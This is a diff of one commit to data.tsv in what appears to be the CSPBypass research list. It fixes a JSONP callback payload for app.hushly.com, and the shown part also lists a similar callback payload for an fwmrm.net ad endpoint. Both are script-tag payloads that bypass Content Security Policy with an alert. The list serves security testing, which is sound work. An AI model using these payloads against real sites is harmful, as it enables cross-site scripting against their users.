

Before and after one commit to renniepak/CSPBypass, a TSV file: data.tsv, drawn as a sheet; only a part is shown.

Commit message:
Update data.tsv
Added CSP bypass for app.hushly.com

```diff
--- a/data.tsv
+++ b/data.tsv
@@ -1,3 +1,3 @@
 Domain	Code
-app.hushly.com  <script src="https://app.hushly.com/runtime/visitor?callback=alert(d1)//"></script>
+app.hushly.com  <script src="https://app.hushly.com/runtime/visitor?callback=alert(1)//"></script>
 7b936.v.fwmrm.net	<script src="https://7b936.v.fwmrm.net/ad/g/1?nw=1&csid=1&resp=json&cbfn=alert(1)-"></script>
```
